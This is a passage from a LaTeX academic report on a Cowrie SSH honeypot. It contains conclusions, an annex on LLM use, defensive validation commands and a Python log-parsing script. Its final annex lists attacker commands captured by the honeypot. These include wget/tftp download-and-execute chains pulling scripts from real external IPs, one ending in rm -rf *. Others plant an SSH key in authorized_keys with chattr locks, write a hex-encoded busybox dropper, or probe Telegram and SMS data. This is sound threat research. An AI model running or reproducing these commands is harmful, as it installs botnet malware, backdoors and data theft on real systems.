Future research can fill these gaps by: enabling Cowrie on containerized high-interaction systems on diverse platforms, including those that allow an attacker to virtually «succeed» some attempts. Enabling flexible artifact engineering to develop dynamic deception (e.g., cryptocurrency nodes, Kubernetes node configurations) on AI template could be interesting against emerging threat classes. Geolocation is vital so that a honeynet outside of considerably watched the area, like OVH Asia or Scaleway Africa helps avoid provider filtering while allowing comparisons to be made regarding methods, techniques, and procedures (TTPs). Realism of artifacts can also be improved, increasing emulation fidelity, per example by combining Linux namespaces with actual binaries. Finally, it is important to continue exploring the legality of multi-jurisdiction undertakings like honeypots. Future work will also focus on building a log aggregation stack and more robust decoys using all of Cowrie's functionalities. 
In conclusion, honeypots still have value in providing insights while revealing contemporary problems: modern automation must embrace deception beyond static bait, and situations in use may compromise perspectives of visibility. Bridging the gap to method and experience and permitting long-term persistent observability might enable future attempts to push honeypots further towards pro-active adversarial learning systems capable of detecting contemporary advanced attacker methods.






    %Bibliography
    \nocite{*}
    \printbibliography[type=book,title=Book]
    \begin{figure}[h!]
        \centering
        \includegraphics[width=0.5\linewidth]{doc/img/book-cover_honeypot_tracking_hackers.png}
    \end{figure}

    %
    % %  section ANNEXES
    % horizontal line
    \addtocontents{toc}{%
      \protect\vspace{\baselineskip}%
      \protect\noindent\rule{\linewidth}{0.1pt}%
      \protect\par
    }
    % Change numbering to alphabetic
    \appendix
    \renewcommand{\thesection}{\Alph{section}}
    \setcounter{section}{0} % start at A
    \titleformat{\section}
      {\normalfont\Large\bfseries}
      {\Alph{section}}
      {1em}
      {}
    \newpage

\newpage 


\section{Annex: LLM Usage in this Project}  
\label{annex:llm}  
\
\

Large Language Models (LLMs) were strategically employed during the realization of this project, mainly as \emph{collaborative augmentation tools} rather than content generators. The following guidelines must be respected in order to keep control over a LLM work.
\subsection*{Methodological Approach}

--- \textbf{Verification-Centric Deployment}: LLMs output is heavily dependent on its user's own comprehension, AI will not do more than instructed to, it will not \texttt{consciously} ask user a question, it will not compel you to do anything, but it is a decent corrector and will definitely be able to give suggestions that go in the right direction. All model outputs undergo cross-validation against credible and up-to-date sources such as; official documentation (Linux man pages, git repository documentation, Cloud guides), academic literature (Spitzner's foundational honeypot frameworks, cybersecurity courses), security best practices and standards. Not one technical implementation (e.g.: IAM policies, iptables rules, or authentication logic) were deployed before thorough validation and edge-case mitigation.

--- \textbf{Controlled Application}: LLMs interactions were constrained to: debugging assistance for Python scripting and \textit{systemd}-based Linux administration, technical documentation refinement (post-human draft), architectural brainstorming (especially in understanding distinct cloud providers lingo for equivalent functionalities). \texttt{Original research material or system designs solely generated by LLMs are absolutely forbidden}, and so is plagiarism}. 

In conclusion, results of this research are strictly human-produced or consequences of attack patterns that were witnessed within our honeypot network.

\subsection*{Operational Safeguards}
The implementation incorporated safeguards to preserve academic integrity:

--- \textbf{Input Sanitization Protocol}: All project-specific identifiers (IP addresses, credentials, API
keys) were redacted automatically before any LLM interaction, preventing potential data leakage through model training vectors.


--- \textbf{Bias Mitigation}: From a model's output to the distinction of attackers' behavioral patterns, all information gathered during execution was triangulated with honeypot telemetry data and peer-reviewed between our group to counter potential algorithmic hallucinations. Model-derived hypotheses of attacker tactics were utilized solely as preliminary filters before our own analysis.

\



\newpage

\section{Annex: Validation for SSH Isolation \& Fail2ban Hardening} 
\label{annex:network}
\
\
\begin{lstlisting}[language=bash, label={annexes:network}, caption={Network Isolation Verification}]  
# Port 22 redirects to Cowrie (2222) and admin port (61001) is exclusive  
sudo nmap -sV -Pn -p 22,2222,610001 51.79.248.60

# Check iptables NAT rules for redirect
sudo iptables -t nat -L PREROUTING -v -n  
\end{lstlisting}  
\


\begin{lstlisting}[language=bash, label={annexes:fail2ban}, caption={Fail2ban Efficacy Testing}]  
# Simulate brute-forcing administrative access 
for i in {1..5}; do ssh -i ~/.ssh/wrong_key.pem ubuntu@51.79.248.60 -p 61001; done  

# Check active bans  
sudo fail2ban-client status ssh-admin  
\end{lstlisting}  
\

\begin{figure}[h!]
\centering
    \includegraphics[width=0.8\linewidth]{doc/img/annex_b_listing_2.png}
\end{figure}

\begin{lstlisting}[language=bash, label={annexes:ssh-hardening}, caption={SSH Service Hardening Validation}]  
# 1. SSH configuration resists downgrade attempts
sudo sshd -T | grep -E '^ciphers|^kexalgorithms|^macs|^hostkeyalgorithms'  


# 3. Confirm password authentication is disabled 
ssh -o PubkeyAuthentication=no -o PreferredAuthentications=password ubuntu@51.79.248.60 -p 61001  
\end{lstlisting}

\begin{figure}[h!]
    \centering
    \includegraphics[width=0.8\linewidth]{doc/img/annex_b_listing_3.png}
\end{figure}
\





\newpage

\section{Annex: Cowrie Operational Validation}  
\label{annex:cowrie-validation}  
\
\
\begin{lstlisting}[language=bash,label={lst:cowrie-redirect},caption={Traffic Redirection Verification}]  
# 1. Validate iptables NAT rules  
sudo iptables -t nat -L PREROUTING -nv | grep 'tcp dpt:22 redir ports 2222'  

# Confirm no direct binding to port 22  
sudo nmap -sV -Pn -p 22,2222 51.79.248.60 | grep -E '22/tcp|2222/tcp'  
\end{lstlisting}  
\
\begin{lstlisting}[language=bash,label={lst:cowrie-access},caption={Honeypot Engagement Testing}]  
# 2. Simulate attacker connection  
ssh -o StrictHostKeyChecking=no invalid_user@51.79.248.60 -p 22  

# Inspect Honeypot interactions in real time  
sudo apt-get install ccze
sudo tail -f /home/cowrie/cowrie/var/log/cowrie/cowrie.log | ccze -A  
\end{lstlisting}  
\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_c_listing_2.png}
    \caption*{Record of two intrusions in real time}
\end{figure}

\
\newpage

\section{Annex: Credential Exploitation Patterns (RQ1)}  
\label{annex:log-credential1}  
\

\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_d_credentials1.png}
    \caption*{Line \href{https://github.com/nottoBD/netsec-honeypot/blob/master/log/cowrie.json.2025-06-11}{403}: Same toolchain suggests botnet, usage of BOM char and Go SSH implementation.}
\end{figure}


\label{annex:log-python}  
\begin{lstlisting}[language=python,label={lst:cowrie-python},caption={Post-Attack Analysis Python Script}] 
import re
import requests
import pycountry
from collections import defaultdict, Counter
import pandas as pd

log_files = ["cowrie.log.2025-06-11", "cowrie.log.2025-06-12", "cowrie.log.2025-06-13"]

login_attempts = defaultdict(set)
login_ip_list = defaultdict(list)
login_counter = Counter()
login_successes = Counter()
login_protocols = defaultdict(set)

commands_executed = []
download_attempts = []
error_responses = []

ip_country = {}
def get_country(ip):
    if not ip:
        return "Unknown"
    if ip in ip_country:
        return ip_country[ip]
    try:
        res = requests.get(f"http://ip-api.com/json/{ip}?fields=country", timeout=3)
        country = res.json().get("country", "Unknown") if res.status_code == 200 else "Unknown"
    except:
        country = "Unknown"
    if country == "The Netherlands":
        country = "Netherlands"
    ip_country[ip] = country
    return country

def get_country_code(country_name):
    try:
        return pycountry.countries.lookup(country_name).alpha_2
    except:
        return "??"

# Lecture des logs
for file in log_files:
    with open(file, "r", encoding="utf-8", errors="ignore") as f:
        lines = f.readlines()

    for line in lines:
        proto = "Telnet" if "telnet" in line.lower() else "SSH"

        login_match = re.search(r'login attempt \[(.*?)\/(.*?)\]', line)
        if login_match:
            username, password = login_match.groups()
            username = username.strip().replace("b'", "").replace("'", "")
            password = password.strip().replace("b'", "").replace("'", "")
            if username == "" and password == "":
                continue

            ip_match = re.search(r'(\d+\.\d+\.\d+\.\d+)', line)
            ip = ip_match.group(1) if ip_match else None

            login_attempts[(username, password)].add(ip)
            if ip:
                login_ip_list[(username, password)].append(ip)
            login_counter[(username, password)] += 1
            login_protocols[(username, password)].add(proto)

        # Détection des connexions réussies
        if "login success" in line.lower() or "succeeded" in line.lower():
            success_match = re.search(r'login (?:success|attempt) \[(.*?)\/(.*?)\]', line)
            if success_match:
                u, p = success_match.groups()
                u = u.strip().replace("b'", "").replace("'", "")
                p = p.strip().replace("b'", "").replace("'", "")
                login_successes[(u, p)] += 1

        if "CMD: " in line:
            cmd = re.search(r'CMD: (.+)', line)
            if cmd:
                commands_executed.append(cmd.group(1))

        if "wget" in line or "curl" in line:
            download_attempts.append(line.strip())

        if "command not found" in line.lower() or "No such file or directory" in line:
            error_responses.append(line.strip())

# Construction du tableau
rows = []
for (username, password), ip_set in login_attempts.items():
    total_occurrences = login_counter[(username, password)]
    ip_list = login_ip_list[(username, password)]
    unique_ip_count = len(ip_set)
    ip_string = ", ".join(sorted(ip_set)) if ip_set else "None"
    countries = set(get_country(ip) for ip in ip_set if ip)
    country_codes = set(get_country_code(c) for c in countries if c)
    country_str = ", ".join(sorted(country_codes)) if country_codes else "??"
    protocols = ", ".join(sorted(login_protocols[(username, password)]))
    status = "Success" if login_successes.get((username, password), 0) > 0 else "Failure"

    rows.append((username, password, total_occurrences, unique_ip_count, ip_string, country_str, protocols, status))

df_rq1 = pd.DataFrame(rows, columns=[
    "Username", "Password", "Occurrences", "Unique IPs", "IP List",
    "Country", "Protocol", "Statut Connexion"
])
df_rq1 = df_rq1.sort_values(by="Occurrences", ascending=False)

# Commandes
command_counter = Counter(commands_executed)
df_rq2 = pd.DataFrame(command_counter.items(), columns=["Command", "Occurrences"]).sort_values(by="Occurrences", ascending=False)

# Erreurs
def categorize_error(line):
    if "command not found" in line.lower():
        return "Command Not Found"
    elif "No such file or directory" in line:
        return "Missing File"
    else:
        return "Other"

df_rq3 = pd.DataFrame({
    "Error Line": error_responses,
    "Category": [categorize_error(l) for l in error_responses]
})

# Export CSV
df_rq1.to_csv("rq1_logins.csv", index=False, encoding="utf-8-sig", sep=";")
df_rq2.to_csv("rq2_commands.csv", index=False, encoding="utf-8-sig", sep=";")
df_rq3.to_csv("rq3_errors.csv", index=False, encoding="utf-8-sig", sep=";")
\end{lstlisting} 

\

\begin{figure}[h!]
    \centering
    \label{annex:log-credential2}  
    
\includegraphics[angle=90, height=0.95\textheight, keepaspectratio]{doc/img/annex_d_credentials2.png}
\end{figure}
\
\

\newpage

\section{Annex: Persistence Mechanism Analysis (RQ2)}  
\label{annex:log-persistence1}  
\

\begin{figure}[h!]
    \centering
    \includegraphics[width=1\linewidth]{doc/img/annex_e_log_persistence_satori.png}
    \caption*{Lines \href{https://github.com/nottoBD/netsec-honeypot/blob/master/log/cowrie.json.2025-06-11}{230}: Botnet attack  using the Unix tool \textit{Busybox} and the \textit{Satori} IoT malware} 
\end{figure}

\label{annex:log-persistence2}  
\begin{lstlisting}[language=bash,label={lst:log-decoy},caption={Commands Input and Occurrences}]  
uname -s -v -n -r -m;641
sh;70
shell;70
system;68
enable;68
/bin/busybox SATORI;53
"/bin/busybox cat /bin/busybox || while read i; do /bin/busybox echo ; done < /bin/busybox || /bin/busybox dd if=/bin/busybox bs=22 count=1";53
uname -s -m;13
/bin/busybox cat /proc/self/exe || cat /proc/self/exe;9
"ping; sh";9
"chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; chmod +x setup.sh; sh setup.sh; rm -rf setup.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo ""ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL6l7rT/mt1AdgdY9tC1GPK216q0q/7neNVqm7AgvfJIM3ZKniGC3S5x6KOEApk+83GM4IKjCPfq007SvT07qh9AscVxegv66I5yuZTEaDAG6cPXxg3/0oXHTOTvxelgbRrMzfU5SEDAEi8+ByKMefE+pDVALgSTBYhol96hu1GthAMtPAFahqxrvaRR4nL4ijxOsmSLREoAb1lxiX7yvoYLT45/1c5dJdrJrQ60uKyieQ6FieWpO2xF6tzfdmHbiVdSmdw0BiCRwe+fuknZYQxIC1owAj2p5bc+nzVTi3mtBEk9rGpgBnJ1hcEUslEf/zevIcX8+6H7kUMRr rsa-key-20230629"" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; uname -a; echo -e ""\x61\x75\x74\x68\x5F\x6F\x6B\x0A""";5
uname -s -v -n -r;5
exit;4
uname -a;4
ifconfig;4
/ip cloud print;4
locate D877F783D5D3EF8Cs;4
ls -la ~/.local/share/TelegramDesktop/tdata /home/*/.local/share/TelegramDesktop/tdata /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*;4
ps | grep '[Mm]iner';4
ps -ef | grep '[Mm]iner';4
echo Hi | cat -n;4
cat /proc/cpuinfo;4
"ping ;sh";4
/bin/busybox cat /proc/self/exe || cat /bin/echo;3
"dd bs=52 count=1 if=.s || cat .s || while read i; do echo $i; done < .s";2
"tftp; wget; /bin/busybox BJGRG";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox BJGRG";1
cd /home/phil/;1
"cat /proc/mounts; /bin/busybox BJGRG";1
./exploit.sh;1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://176.65.148.194/selfrep.sh; chmod 777 selfrep.sh; sh selfrep.sh; tftp 176.65.148.194 -c get selfrep1.sh; chmod 777 selfrep1.sh; sh selfrep1.sh; tftp -r selfrep2.sh -g 176.65.148.194; chmod 777 selfrep2.sh; sh selfrep2.sh; ftpget -v -u anonymous -p anonymous -P 21 176.65.148.194 selfrep1.sh selfrep1.sh; sh selfrep1.sh; rm -rf selfrep.sh selfrep1.sh selfrep2.sh selfrep1.sh";1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://87.121.84.163/telnet.sh; chmod 777 telnet.sh; sh telnet.sh; tftp 87.121.84.163 -c get telnet1.sh; chmod 777 telnet1.sh; sh telnet1.sh; tftp -r telnet2.sh -g 87.121.84.163; chmod 777 telnet2.sh; sh telnet2.sh; ftpget -v -u anonymous -p anonymous -P 21 87.121.84.163 telnet1.sh telnet1.sh; sh telnet1.sh; rm -rf telnet.sh telnet1.sh telnet2.sh telnet1.sh";1
"chmod +x ./.1917907033382921327/sshd;nohup ./.1917907033382921327/sshd 156.248.78.128 221.203.3.184 101.36.228.201 14.199.52.62 125.87.89.119 122.228.208.32 113.7.221.72 112.4.175.171 116.62.60.152 110.49.99.110 220.181.172.244 147.93.103.172 103.239.252.132 193.233.165.168 111.12.131.236 193.34.212.145 187.141.210.92 36.66.63.125 223.75.204.39 51.91.67.151 45.137.153.111 &";1
"cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget http://196.251.114.8/ohshit.sh; curl -O http://196.251.114.8/ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp 196.251.114.8 -c get ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp -r ohshit2.sh -g 196.251.114.8; chmod 777 ohshit2.sh; sh ohshit2.sh; ftpget -v -u anonymous -p anonymous -P 21 196.251.114.8 ohshit1.sh ohshit1.sh; sh ohshit1.sh; rm -rf ohshit.sh ohshit.sh ohshit2.sh ohshit1.sh; rm -rf *";1
"tftp; wget; /bin/busybox RTVVD";1
/bin/busybox RTVVD;1
"cat /proc/mounts; /bin/busybox RTVVD";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox RTVVD";1
"rm .s; exit";1
">/usr/.a && cd /usr/; rm -rf .a";1
">/mnt/.a && cd /mnt/; rm -rf .a";1
">/var/run/.a && cd /var/run/; rm -rf .a";1
">/dev/shm/.a && cd /dev/shm/; rm -rf .a";1
">/etc/.a && cd /etc/; rm -rf .a";1
">/var/.a && cd /var/; rm -rf .a";1
">/var/home/user/fw/.a && cd /var/home/user/fw/; rm -rf .a";1
"for i in `cat /proc/mounts|grep tmpfs|grep -v noexec|cut -d ' ' -f 2`; do >$i/.a && cd $i;done";1
cat /proc/mounts | grep tmpfs | grep -v noexec | cut -d   -f 2;1
"/bin/busybox wget --help; /bin/busybox ftpget --help; /bin/busybox echo -e '\x67\x61\x79\x66\x67\x74';";1
"rm -rf .d; rm -rf .b; >.d; (chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d; >.d); >.b; (chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b; >.b)";1
"chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d ; > .d";1
"chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b ; > .b";1
/bin/busybox echo -en '\x53\x3d\x39\x34\x2E\x32\x36\x2E\x39\x30\x2E\x32\x31\x37\x3b\x20\x28\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f'>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x70\x20\x2d\x4f\x2d\x7c\x7c\x63\x75\x72\x6c\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70\x7c\x7c\x66\x74\x70\x67\x65\x74\x20'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x24\x53\x20\x2d\x20\x70\x7c\x7c\x62\x75\x73\x79\x62\x6f\x78\x20\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
"/bin/busybox chmod 777 .d; ./.d > .b; /bin/busybox chmod 777 .b; ./.b matrix";1\end{lstlisting}  

\
\




\newpage


% END



    %
    % %

\end{document}
